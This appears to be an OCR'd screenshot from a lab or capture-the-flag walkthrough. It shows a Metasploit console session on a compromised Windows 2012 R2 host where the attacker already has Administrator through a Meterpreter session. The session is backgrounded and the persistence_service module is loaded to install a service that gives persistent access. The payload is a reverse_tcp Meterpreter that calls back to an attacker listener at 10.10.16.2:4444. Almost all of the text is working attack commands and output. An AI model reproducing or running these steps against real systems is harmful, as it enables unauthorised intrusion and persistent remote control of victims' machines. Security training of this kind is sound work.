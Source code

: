 ```bash
meterpreter > sysinfo
Computer        : WIN-OMCNBKR66MN
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: WIN-OMCNBKR66MN\Administrator
meterpreter > background
[*] Backgrounding session 1...
```

```bash
msf6 exploit(windows/http/rejetto_hfs_exec) > search persistence_service

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/windows/local/persistence_service  2018-10-20       excellent  No     Windows Persistent Service Installer

Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/local/persistence_service

msf6 exploit(windows/http/rejetto_hfs_exec) > use exploit/windows/local/persistence_service
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/persistence_service) > show options

Module options (exploit/windows/local/persistence_service):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   REMOTE_EXE_NAME                       no        The remote victim name. Random string as default.
   REMOTE_EXE_PATH                       no        The remote victim exe path to run. Use temp directory as default.
   RETRY_TIME           5                no        The retry time that shell connect failed. 5 seconds as default.
   SERVICE_DESCRIPTION                   no        The description of service. Random string as default.
   SERVICE_NAME                          no        The name of service. Random string as default.
   SESSION                               yes       The session to run this module on.

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.16.2       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Windows

msf6 exploit(windows/local/persistence_service) > sessions

Active sessions
```